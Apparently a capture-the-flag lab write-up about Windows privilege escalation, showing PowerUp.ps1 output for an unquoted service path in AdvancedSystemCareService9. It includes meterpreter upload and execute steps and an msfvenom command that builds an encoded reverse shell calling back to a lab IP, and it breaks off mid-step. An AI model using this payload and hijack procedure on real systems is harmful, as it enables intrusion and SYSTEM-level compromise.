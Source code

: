 After gaining a shell to a windows machine, upload the PowerUp.ps1 script through the meterpreter shell with `upload /path/to/PowerUp.ps1` then load powershell with `load powershell` and enter into powershell with `powershell_shell` now run the PowerUp.ps1 script with `. .\PowerUp.ps1`. 

Run `Invoke-AllChecks` in powershell to see a detailed list of potential vulnerabilities or misconfigurations, along with some context or explanation for each finding.

I noticed these results that have the `CanRestart` option set to `true`:
```
ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=AppendData/AddSubdirectory}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths

ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; Permissions=WriteData/AddFile}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths

ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\Program Files (x86)\IObit; IdentityReference=STEELMOUNTAIN\bill;
                 Permissions=System.Object[]}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths

ServiceName    : AdvancedSystemCareService9
Path           : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiablePath : @{ModifiablePath=C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe;
                 IdentityReference=STEELMOUNTAIN\bill; Permissions=System.Object[]}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'AdvancedSystemCareService9' -Path <HijackPath>
CanRestart     : True
Name           : AdvancedSystemCareService9
Check          : Unquoted Service Paths
```

The `PowerUp.ps1` script has identified a service named `AdvancedSystemCareService9` with several vulnerabilities, specifically "Unquoted Service Paths." This vulnerability occurs when the service path is not enclosed in quotes and contains spaces. You can exploit this by placing a malicious executable in one of the paths that the system checks when launching the service.

The service path is `C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe`. Because this path is unquoted and contains spaces, You could potentially place a malicious executable named `Program.exe` in `C:\` or another executable named `Files.exe` in `C:\Program`, and so on. When the service starts, the system could execute the malicious file instead of the intended service.

The `AbuseFunction` field suggests using the `Write-ServiceBinary` function to exploit this vulnerability. You could replace the service binary (`ASCService.exe`) with your own malicious executable, such as the `Advanced.exe` generated by `msfvenom`.

The `ModifiablePath` field indicates which parts of the file path can be modified by non-privileged users, providing further opportunities for exploitation.

Given that the service runs as `LocalSystem`, exploiting this vulnerability would give you system-level privileges on the machine.

If you were to use the `Advanced.exe` payload generated by `msfvenom` to replace `ASCService.exe` (or place it in a location specified by `ModifiablePath`), you could potentially gain a reverse shell with system-level privileges when the service is restarted.

The `CanRestart` option being `true`, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one, restart the service, which will run our infected program.

Use `msfvenom` to generate a windows reverse shell over TCP [[Metasploit#Windows reverse shell over TCP]]:
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.4.20.218 LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe
```

Then upload it using `upload /path/to/Advanced.exe` and run with `execute -f Advanced.exe`. Remember, the `AdvancedSystemCareService9` service is vulnerable to "Unquoted Service Paths." This vulnerability can be exploited if the service path is not enclosed in quotes and contains spaces. In this case, the service path is `C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe`, which is unquoted and contains spaces.

To exploit this vulnerability, place the `Advanced.exe` in the `C:\Program Files (x86)\IObit\` directory, then stop the `AdvancedSystemCareService9` service through meterpreter with ``

[PowerUp.ps1 script](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)